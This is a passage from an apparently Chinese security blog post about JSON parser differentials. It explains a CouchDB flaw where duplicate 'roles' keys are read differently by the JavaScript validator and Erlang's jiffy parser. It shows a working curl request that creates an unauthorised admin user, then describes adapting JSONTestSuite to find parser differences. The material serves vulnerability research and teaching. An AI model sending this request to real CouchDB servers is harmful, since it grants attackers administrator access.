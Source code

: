漏洞就出在 Javascript JSON 解析器（在验证脚本中使用）与 CouchDB 内部使用的名为 jiffy 的解析器（Erlang语言）之间存在差异。看下这两个解析器对相同键的处理。

**Erlang**

```erlang
> jiffy:decode("{\"foo\":\"bar\", \"foo\":\"baz\"}").
{[{<<"foo">>,<<"bar">>},{<<"foo">>,<<"baz">>}]}
```

**Javascript**

```js
> JSON.parse("{\"foo\":\"bar\", \"foo\": \"baz\"}")
{foo: "baz"}
```

jiffy保留了2个重复键，用于验证的javascript取后面一个键值，并且 CouchDB 数据内部表示的 getter 函数只会返回第一个值。

```plain text
% Within couch_util:get_value 
lists:keysearch(Key, 1, List).
```

所以我们可以通过下面的请求，让javascript解析是空，认为是非管理员用户，通过验证，而jiffy则新增的是管理员用户，从而越权新增一个admin权限用户。

```bash
curl -X PUT http://localhost:5984/_users/org.couchdb.user:oops
--data-binary {
  "type": "user",
  "name": "oops",
  "roles": ["_admin"],
  "roles": [],
  "password": "password"
}
```

## 三、如何批量检测json解析器的差异性

当我们漏洞挖掘的项目有多个json解析器的情况下，可以对[JSON Parsing Test Suite](https://github.com/nst/JSONTestSuite/tree/master)这个工具稍作修改，就可以快速验证两个或多个解析器存在的差异。

### 3.1 工具简介

如下图，`run_test.py`是主要的代码逻辑入口，`parsers`目录下是各种解析器，`tests`目录下是针对`RFC 8259`做了各种变形的json，`test_transform`目录是各种解析器识别容易有差异性json数据（超大数字、重复键、空字符等）。

 ![](/attachments/2024-04-10-json/ba0beb7d-b3c7-45e4-8e67-82b9e4af0da9.png)

`run_test.py`会对`parsers`目录下各种解析器做一个包装，将解析器执行的命令返回状态结果记录到`log.txt`，然后做解析美化记录到`results`目录下，下面是生成的`parsing.html`中的对比图表，包含各种解析器对不同json数据解析后返回的状态。

 ![](/attachments/2024-04-10-json/090d5de6-7825-415b-9e3b-18be39b4cebc.png)

工具是针对`RFC 8259`标准对各json析器做的测试用例，对比的是命令执行返回状态的差异，也就是判断解析是否符合预期的成功、异常或失败。下面是`run_test.py`执行结果的判断：

```python
if result == "CRASH":
        s = "%s\tCRASH\t%s" % (prog_name, filename)
    elif filename.startswith("y_") and result != "PASS":
        s = "%s\tSHOULD_HAVE_PASSED\t%s" % (prog_name, filename)
    elif filename.startswith("n_") and result == "PASS":
        s = "%s\tSHOULD_HAVE_FAILED\t%s" % (prog_name, filename)
    elif filename.startswith("i_") and result == "PASS":
        s = "%s\tIMPLEMENTATION_PASS\t%s" % (prog_name, filename)
    elif filename.startswith("i_") and result != "PASS":
        s = "%s\tIMPLEMENTATION_FAIL\t%s" % (prog_name, filename)
```
